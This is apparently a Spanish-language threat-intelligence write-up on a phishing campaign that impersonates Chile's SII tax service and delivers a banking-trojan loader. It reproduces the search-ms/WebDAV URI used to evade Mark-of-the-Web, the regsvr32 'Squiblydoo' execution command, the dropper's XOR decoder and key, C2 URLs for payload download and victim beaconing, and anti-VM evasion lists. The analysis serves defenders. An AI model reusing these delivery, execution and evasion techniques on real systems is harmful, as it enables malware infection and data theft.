

El dominio principal, en cambio, mantiene el sitio real de la empresa, por lo que el operador estaría utilizando subdominios creados sobre dominios de terceros.



# Análisis de la Cadena de Infección

El inicio de la infección es simple: al hacer click, el enlace lleva directamente al landing page encargado de entregar el malware, que imita un **proceso de carga** para la generación de archivos con el fin de dar credibilidad a la víctima.



Mientras se muestra la carga, el sitio realiza una petición **POST** a **gerar.php** mediante el bloque de script mencionado anteriormente. La petición no envía ningún parámetro, por lo que el servidor solo cuenta con la dirección IP, el **User-Agent** y el dominio por el que se ingresó.



El servidor genera el archivo y responde con la URL donde quedó alojado, que mantiene la misma estructura del open directory _(**/files/\<dominio\>/\<token\>/\<archivo\>.zip**)_.



Finalmente, el sitio indica que el documento está listo y permite descargarlo nuevamente.



Al repetir la prueba desde otro navegador, pero con la misma IP, el servidor devuelve el mismo token, por lo que este se asocia al visitante y no a cada click.

Posteriormente, se descarga un **archivo zip** que, dependiendo del sistema operativo _(Windows o Linux)_, tendrá una interacción diferente:

* Linux

Este genera de manera automática la descarga del archivo **.zip** _(cabe señalar que la campaña está dirigida únicamente a equipos Windows)_.



El **.zip** contiene un único archivo con su mismo nombre, en este caso un **.hta**.



* Windows

En ciertos casos, el archivo no se descarga por el navegador. El servidor responde con una URI **search-ms:**, por lo que el navegador solicita permiso para abrir el Explorador de Windows, y este muestra una ventana con el nombre **"Downloads"** que contiene únicamente el archivo **.zip**.


La víctima cree estar viendo su carpeta de descargas, pero en rigor es un recurso remoto montado por **WebDAV**. La URI utilizada _(ya decodificada)_ es la siguiente:

```
search-ms:query=*.zip
  &crumb=location:\\<dominio>@SSL\files\<dominio>\<token>
  &crumb=location:::{2227A280-3AEA-1069-A2DE-08002B30309D}
  &displayname=Downloads
```

| **Parámetro**                  | **Función**                                                                    |
| ------------------------------ | ------------------------------------------------------------------------------ |
| `query=*.zip`                  | Filtra la vista para mostrar solo el archivo **.zip**.                         |
| `location:\\<dominio>@SSL\...` | Monta el recurso remoto por WebDAV _(puerto 443)_ en el directorio del token.  |
| `<token>`                      | El mismo identificador de 16 caracteres del open directory.                    |
| `{2227A280-...}`               | CLSID de una carpeta virtual de Windows _(Impresoras)_.                        |
| `displayname=Downloads`        | Nombre que muestra la ventana del Explorador.                                  |

Cabe señalar que **search-ms** y el parámetro **crumb** son funciones [documentadas por Microsoft](https://learn.microsoft.com/en-us/windows/win32/search/-search-3x-wds-qryidx-crumb), por lo que no se explota una vulnerabilidad. Con esto el operador consigue lo siguiente:

* **Evasión de Mark-of-the-Web**: El archivo lo obtiene el cliente WebDAV de Windows _(servicio **WebClient**)_ y no el navegador, por lo que no recibe el **Zone.Identifier** y no se presentan las advertencias de **SmartScreen** al abrirlo.
* **Masquerading**: La víctima no percibe una descarga desde Internet, sino un archivo que aparenta estar ya en su equipo.

En ambos casos el resultado es el mismo: un archivo de entre 1.2 y 1.9 KB que, por su tamaño, no contiene el payload final. Entre las muestras se identifican tres formatos _(**.hta**, **.vbs** y **.lnk**)_, y los tres cumplen la misma función: descargar y ejecutar la siguiente etapa.

## Análisis de la muestra

Se descarga la muestra a analizar; en este caso, como se mencionó anteriormente, el archivo inicial sigue una estructura simple: **DOC-\<Alfanumérico\>.\<hta|vbs|lnk\>**.



El dropper es un **VBScript** ofuscado que se ejecuta mediante **wscript.exe** y se presenta como **"Windows Update Service Helper"**, con copyright de Microsoft y comentarios que mantienen esa fachada. La ofuscación combina identificadores aleatorios, **junk code** sin efecto sobre el flujo *(**For x = 0 To 0 : Next**, **If False Then**)* y **string encoding**: cada **ProgID** y la URL del **stage 2** se almacenan como arreglos de char codes decimales desplazados por una clave aditiva, por lo que ningún **IoC** queda en texto claro. Los objetos COM se instancian con **CreateObject** sobre el string ya decodificado, y el **On Error Resume Next** de la línea 33 hace que el script falle en silencio si no logra descargar la siguiente etapa.



### Desofuscación de Dropper

Antes de llevar cualquier valor a **CyberChef** es necesario entender cómo el propio script reconstruye sus strings. Los arreglos por sí solos no entregan información: sin la rutina de decodificación y sin la clave correspondiente a cada uno, el resultado es ilegible. Para ello, se identificaron las rutinas que utiliza el dropper:

* **gdnee(arreglo, clave)**: Recorre el arreglo y resta la clave a cada elemento antes de convertirlo con **Chr()**.
* **ceyii0(string)**: Devuelve el string invertido.
* **Chr() con aritmética**: Strings armados carácter a carácter con operaciones triviales *(Ej. **Chr(2+67)**)*, sin función asociada.

Una vez identificada la rutina **gdnee**, se ubican las claves que utiliza. Estas se declaran al inicio de la subrutina principal **g33br6** *(líneas 36 a 38 del extracto)*, disfrazadas como sumas:

| **Variable** | **Expresión** | **Valor** |
| ------------ | ------------- | --------- |
| `ppgce`      | `15 + 2`      | 17        |
| `ck8k91k`    | `19 + 19`     | 38        |
| `g462s`      | `6 + 4`       | 10        |

Cabe destacar que la relación entre cada arreglo y su clave no se encuentra en la declaración del arreglo, sino en la llamada a **gdnee**. Por ejemplo, la instrucción **CreateObject(gdnee(fkp9k, ppgce))** indica que el arreglo **fkp9k** se decodifica con la clave **17**. Siguiendo esta lógica, se obtiene la siguiente asociación:

| **Arreglo** | **Línea** | **Clave** | **Uso en el script**        |
| ----------- | --------- | --------- | --------------------------- |
| `fkp9k`     | 43        | 17        | CreateObject                |
| `plwdxz6`   | 46        | 17        | CreateObject *(fallback)*   |
| `h7y1j`     | 51        | 38        | CreateObject                |
| `kofmohq`   | 53        | 38        | CreateObject                |
| `mg5br`     | 57        | 10        | Destino de la petición HTTP |

Con la rutina y las claves identificadas, se replica el comportamiento de **gdnee** en **CyberChef** mediante la siguiente receta, modificando el valor de **SUB** según la tabla anterior:

```
Find_/_Replace({'option':'Regex','string':'[\\s_]'},'',true,false,true,false)
From_Decimal('Comma',false)
SUB({'option':'Decimal','string':'10'})
```

La primera operación elimina espacios, saltos de línea y el carácter de continuación **"_"** de VBScript; la segunda interpreta los valores decimales como bytes y la tercera resta la clave.



Al aplicar la receta sobre cada arreglo, se obtienen los siguientes valores:

| **Arreglo** | **Valor decodificado**                                    |
| ----------- | --------------------------------------------------------- |
| `fkp9k`     | `Msxml2.ServerXMLHTTP`                                    |
| `plwdxz6`   | `Msxml2.XMLHTTP`                                          |
| `h7y1j`     | `ADODB.Stream`                                            |
| `kofmohq`   | `WScript.Shell`                                           |
| `mg5br`     | `hxxps://sii[.]cl-facturas[.]lat/d/e55xxx?r=numeros_valor_random` |

Por otro lado, para los strings procesados por **ceyii0** basta con la operación **Reverse** *(por byte)*:

| **String en el script**                              | **Valor**                                            |
| ---------------------------------------------------- | ---------------------------------------------------- |
| `)1.6 TN swodniW ;0.8 EISM ;elbitapmoc( 0.4/allizoM` | `Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)` |
| `:i/ u/ n/ s/ 23rvsger`                              | `regsvr32 /s /n /u /i:`                              |
| `lld.jborcs `                                        | ` scrobj.dll`                                        |



Adicionalmente, el script construye varios strings carácter a carácter con **Chr()** y operaciones aritméticas triviales, por lo que no pasan por **gdnee** ni por **ceyii0**. Dado que **CyberChef** no evalúa expresiones aritméticas, la receta para estas cadenas aísla cada operación con **Subsection**, la resuelve con **Sum**, **Subtract** o **Multiply** según corresponda, y finalmente extrae los valores resultantes para convertirlos con **From Decimal**:

```
Subsection('(\\d+\\+\\d+)',true,true,false)
Find_/_Replace({'option':'Simple string','string':'+'},' ',true,false,true,false)
Sum('Space')
Merge(true)
Subsection('(\\d+-\\d+)',true,true,false)
Find_/_Replace({'option':'Simple string','string':'-'},' ',true,false,true,false)
Subtract('Space')
Merge(true)
Subsection('(\\d+\\*\\d+)',true,true,false)
Find_/_Replace({'option':'Simple string','string':'*'},' ',true,false,true,false)
Multiply('Space')
Merge(true)
Find_/_Replace({'option':'Regex','string':'(\\r?\\n)+'},'Chr(10)',true,false,true,false)
Regular_expression('User defined','Chr\\((\\d+)\\)',true,true,false,false,false,false,'List capture groups')
From_Decimal('Line feed',false)
```



Al aplicar la receta sobre cada expresión, se obtienen los siguientes valores:

| **Expresión en el script**                       | **Valor**      |
| ------------------------------------------------ | -------------- |
| `Chr(71)&Chr(2+67)&Chr(4+80)`                    | `GET`          |
| `Chr(57+28)&Chr(50+65)&Chr(124-23)&Chr(114)...`  | `User-Agent`   |
| `Chr(19+18)&Chr(1+83)&Chr(69)&Chr(77)...`        | `%TEMP%`       |
| `Chr(46*2)&Chr(116)&Chr(63-10)&Chr(54-5)...`     | `\temporal.sct` |
| `Chr(105)&Chr(115)&Chr(139-28)&Chr(63-18)...`    | `iso-8859-1`   |

Con todos los strings en claro, el flujo de ejecución de esta primera fase queda de la siguiente forma:

* **Descarga**: Instancia **Msxml2.ServerXMLHTTP** *(o **Msxml2.XMLHTTP** si la primera falla)* y realiza una petición **GET** hacia **hxxps://sii[.]cl-facturas[.]lat/d/e55xxx?r=numeros_valor_random**, utilizando un **User-Agent** de Internet Explorer 8.
* **Escritura en disco**: Si la respuesta es **200**, guarda el contenido en **%TEMP%\temporal.sct** mediante **ADODB.Stream**.
* **Ejecución**: Lanza el scriptlet en ventana oculta con el comando **regsvr32 /s /n /u /i:"%TEMP%\temporal.sct" scrobj.dll**. Esta técnica, conocida como [**Squiblydoo**](https://attack.mitre.org/techniques/T1218/010/), abusa de **regsvr32.exe** para que **scrobj.dll** interprete el **.sct** y ejecute su contenido bajo un binario firmado por Microsoft, sin registrar ningún objeto COM en el sistema. A diferencia de la variante clásica, que entrega una URL remota en el parámetro **/i:**, en este caso el scriptlet se carga desde una ruta local.

## Fase 2 — Scriptlet de reconocimiento y anti-VM

El **scriptlet .sct** que el dropper deja en **%TEMP%** y ejecuta mediante Squiblydoo es la segunda etapa de la cadena. A diferencia del VBS, ya no es un simple descargador: es la rutina de **reconocimiento, evasión y perfilado** de la víctima.



Es un XML de scriptlet COM con un bloque **JScript** dentro de **CDATA**, identificado por el **progid zjzFPuit** y el **classid {71795D52-3FEA-497C-ACD7-9180F0CAAD05}**.

### Desofuscación del scriptlet

La ofuscación cambia respecto al dropper: en lugar de resta con clave fija, usa **XOR de clave rotatoria** sobre arreglos decimales. Como con el dropper, la técnica se identifica leyendo la propia función de decodificación:

```javascript
var sTArSx=[142,83,108,137,171,112,61,133,175,51,167,88,112,140,81,67,155,59];
var wQfWa=function(e){var r='',k=sTArSx,l=k.length;for(var i=0;i<e.length;i++){r+=String.fromCharCode(e[i]^k[i%l]);}return r;};
```

De la función se desprenden tres puntos:

* El operador **^** es **XOR** en JScript.
* **k[i % l]** indica una **clave rotatoria**: el índice da la vuelta al llegar al final de la clave, repitiéndose sobre todo el arreglo.
* Cada llamada a **wQfWa(...)** arranca con **i = 0**, por lo que la clave **reinicia en cada arreglo** y cada string se decodifica por separado.

A diferencia del dropper, **la clave no está ofuscada**: **sTArSx** es un arreglo de decimales en texto claro dentro del script. No hay que recuperarla ni derivarla; es exactamente la secuencia de bytes que se usa como clave. Para alimentarla al paso **XOR** de CyberChef se convierte a hexadecimal con una receta trivial:

```
From_Decimal('Comma',false)
To_Hex('Space',0)
```



> Cuando la clave **no** viene en el script *(se trae remota, se deriva o se borra tras usarse)*, igual se recupera por **known-plaintext**: como XOR es reversible, **clave = cifrado XOR texto_conocido**. Sabiendo que un arreglo es una URL que empieza en **https://** o un ProgID como **WScript**, se despeja la clave byte a byte.

Con la clave en hexadecimal, se replica **wQfWa** usando **Fork** *(que procesa un arreglo por línea, reiniciando la clave en cada uno)*:

```
Fork('\n','\n',false)
From_Decimal('Comma',false)
XOR({'option':'Hex','string':'8e 53 6c 89 ab 70 3d 85 af 33 a7 58 70 8c 51 43 9b 3b'},'Standard',false)
```



Al aplicar la receta sobre cada arreglo del objeto **_e** se obtienen los **ProgID**, rutas **WMI** y la URL de la siguiente etapa:

| **Arreglo** | **Valor decodificado**                                    | **Uso**                              |
| ----------- | --------------------------------------------------------- | ------------------------------------ |
| `_e.a`      | `WScript.Shell`                                           | Registro, `%TEMP%`, ejecución        |
| `_e.b`      | `WScript.Network`                                         | ComputerName / UserName              |
| `_e.c`      | `Msxml2.XMLHTTP.6.0`                                      | Beacon y descarga de la etapa 3      |
| `_e.d`      | `winmgmts:\\.\root\cimv2`                                 | SO, fabricante, modelo, BIOS         |
| `_e.e`      | `winmgmts:\\.\root\SecurityCenter2`                       | Enumeración de antivirus             |
| `_e.f`      | `Scripting.FileSystemObject`                              | *Sin uso (resto de versión anterior)*|
| `_e.g`      | `hxxps://sii[.]cl-facturas[.]lat/d/xxxxx?r=numeros_valor_random` | URL de la etapa 3            |

### Reconocimiento del equipo

Con los objetos ya decodificados, el scriptlet perfila el host a partir de cuatro fuentes: **WScript.Network** para el nombre de equipo y usuario, la clase WMI **Win32_OperatingSystem** para la edición del sistema, y la llave de registro **HKCU\Control Panel\International\Locale** para el **LCID**. Cada consulta va envuelta en un **try/catch** que devuelve vacío, de modo que el scriptlet **nunca arroja un error visible** si alguna falla.

### Evasión de análisis (anti-VM)

El núcleo de esta etapa es descartar entornos de análisis. Contrasta el perfil del equipo contra tres listas y, al primer acierto, marca la máquina como virtual y guarda el motivo:

| **Fuente**                    | **Valores buscados**                                                                                     |
| ----------------------------- | -------------------------------------------------------------------------------------------------------- |
| Fabricante / Modelo *(WMI)*   | `Virtual Machine, Hyper-V, VMware, VirtualBox, Virtual PC, QEMU, KVM, Xen, Parallels, Bochs, innotek, Microsoft Corporation` |
| BIOS *(`Win32_BIOS.Version`)* | `VRTUAL, A M I, QEMU, KVM, Xen, Parallels, Bochs`                                                         |
| Nombre de equipo              | `JOHN-PC, SANDBOX, MALWARE, VIRUS, SAMPLE, CUCKOO, ANALYST, MALTEST, TEQUILA, HACKER, WIN7-PC, USER-PC`   |

Adicionalmente consulta **root\SecurityCenter2** para enumerar el **antivirus instalado**. Con esto, el operador conoce el entorno de cada víctima antes de entregar el payload.

Cabe señalar que al obtener este mismo scriptlet desde otro dominio de la campaña _(faturamento-modelo-download[.]lat)_ la lógica es idéntica, solo cambian el **progid**, el **classid**, la clave y los nombres de variables, por lo que el kit genera un scriptlet distinto para cada dominio.



### Check-in y entrega condicional

Toda la información recolectada se envía en un **GET** al panel del atacante:

```
hxxps://sii[.]cl-facturas[.]lat/registrar.php?dominio=..&pc=..&user=..&os=..&vm=..&lang=..&mf=..&md=..&bios=..&vmr=..&av=..
```

Este beacon se realiza **siempre**, incluso al detectar una máquina virtual *(en cuyo caso el operador recibe la señal de que su muestra está siendo analizada)*. La entrega del payload, en cambio, es condicional: **solo si el equipo no es una VM** el scriptlet descarga la etapa 3 desde **_e.g**, la guarda en **%TEMP%\<aleatorio>.sct** mediante **ADODB.Stream** y la ejecuta con un segundo **Squiblydoo**:

```
regsvr32 /s /n /u /i:"%TEMP%\<aleatorio>.sct" scrobj.dll
```

La respuesta del servidor aporta un dato de atribución: el panel confirma el registro con un mensaje en **portugués** *(**Execução registrada com sucesso**)*. El señuelo es chileno y suplanta al **SII**, pero el backend es el mismo panel de habla portuguesa observado en campañas previas de la operación, lo que apunta a un **kit brasileño reutilizado** para apuntar a Chile.



Por último, la correlación entre etapas: el parámetro **r=** de este scriptlet y de la URL de la etapa 3 es **el mismo token** del dropper. Se trata del identificador de campaña o víctima que **enlaza las tres fases** como una única cadena de infección.

## Fase 3 — Descargador del payload ("FluxEngine")

Cuando el equipo **no** es una máquina virtual, la Fase 2 descarga y ejecuta este tercer scriptlet. Ya no hace reconocimiento: es el **descargador (loader)** que trae el troyano bancario, lo despliega en disco y lo ejecuta. Internamente el actor lo identifica como **FluxEngine**.

